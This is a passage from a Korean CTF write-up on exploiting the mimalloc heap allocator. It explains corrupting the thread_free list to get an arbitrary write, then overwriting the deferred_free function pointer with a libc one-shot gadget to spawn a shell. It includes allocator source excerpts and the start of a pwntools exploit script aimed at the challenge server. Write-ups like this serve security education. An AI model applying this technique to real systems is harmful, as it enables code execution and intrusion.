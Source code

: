 `mi_page_thread_free_collect` 에서는 page->thread_free의 마지막 포인터(tail)에 page->free를 쓰고 page->free는 page->thread_free의 가장 처음 포인터(head)를 넣어준다. 그러므로 취약점을 이용해 tail(page->thread_free)에 원하는 메모리 주소를 넣고 page->free에 덮어 쓸 메모리 주소를 넣으면 원하는 메모리에 원하는 값을 써줄 수 있다.

```c
 while ((next = mi_block_next(page,tail)) != NULL) {
    count++;
    tail = next;
  }
```
여기서 유의할 점은 위의 루틴때문에 page->thread_free의 tail을 원하는 메모리로 설정하려면 그 메모리가 null을 가리키고 있어야 한다. 그래서 null을 가리키고있는 원하는 메모리를 원하는 값으로 쓸 수 있게된다.

```c
// Generic allocation routine if the fast path (`alloc.c:mi_page_malloc`) does not succeed.
void* _mi_malloc_generic(mi_heap_t* heap, size_t size) mi_attr_noexcept
{
  mi_assert_internal(heap != NULL);

  // initialize if necessary
  if (mi_unlikely(!mi_heap_is_initialized(heap))) {
    mi_thread_init(); // calls `_mi_heap_init` in turn
    heap = mi_get_default_heap();
  }
  mi_assert_internal(mi_heap_is_initialized(heap));

  // call potential deferred free routines
  _mi_deferred_free(heap, false);
  ...
  ...
```
```c
static mi_deferred_free_fun* deferred_free = NULL;

void _mi_deferred_free(mi_heap_t* heap, bool force) {
  heap->tld->heartbeat++;
  if (deferred_free != NULL) {
    deferred_free(force, heap->tld->heartbeat);
  }
}
```

`_mi_malloc_generic` 함수를 보면 mi_deferred_free 함수를 호출하는데 이 함수는 전역변수 deferred_free 의 값이 null이 아니면 이 함수를 실행시켜주는 역할을 한다. 이미 우리는 null을 가리키는 메모리에 원하는 값을 쓸 수 있으므로 deferred_free을 libc의 oneshot gadget으로 바꿔주면 다음 할당때 shell을 획득할 수 있다.<br>
주의할 점은 head를 유효한 chunk로 넣어주어야 abort를 내지 않고 exploit할 수 있다.

### Exploit Code

```python
from pwn import *

def conn():
    s = remote('mi.chal.ctf.westerns.tokyo',10001)
    return s

s = conn()
def create(idx, size):
    s.sendlineafter('>>', '1')
    s.sendlineafter('number\n', str(idx))
    s.sendlineafter('size\n', str(size))

def write(idx, content):
    s.sendlineafter('>>', '2')
    s.sendlineafter('number\n', str(idx))
    s.sendafter('value\n', str(content))
```